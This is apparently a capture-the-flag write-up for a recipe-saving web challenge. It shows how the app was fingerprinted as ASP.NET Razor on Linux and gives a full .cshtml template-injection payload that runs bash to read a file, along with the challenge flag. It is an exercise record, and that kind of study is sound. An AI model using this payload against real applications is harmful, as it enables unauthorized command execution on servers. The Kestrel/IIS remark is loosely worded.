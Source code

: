 The page lets you enter recipes and save them. Based on one of the prebuilt recipes, it's a good guess this is related to rendering engines.

Now you will notice that this is an ASP.NET application first glance:
1. the `id` parameter is not case sensitive when you try to load other recipes
2. Krestel server header (it's a Microsoft IIS thing)
3. You can trigger an error with aspx syntax, we now know it's .cshtml. And you can get code eval (see 2nd image)

We then build a cshtml payload to get RCE on the box. Also, it's running on Linux (3rd img) instead because of the file path and windows binaries aren't found.

```
@{ var psi = new System.Diagnostics.ProcessStartInfo(); psi.FileName = "/bin/bash"; psi.Arguments = "-c \"cat ../user.txt\""; psi.RedirectStandardOutput = true; psi.UseShellExecute = false; psi.CreateNoWindow = true; var proc = System.Diagnostics.Process.Start(psi); string output = proc.StandardOutput.ReadToEnd(); proc.WaitForExit(); @output }
```

Flag: `brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}`

Solved by: benkyou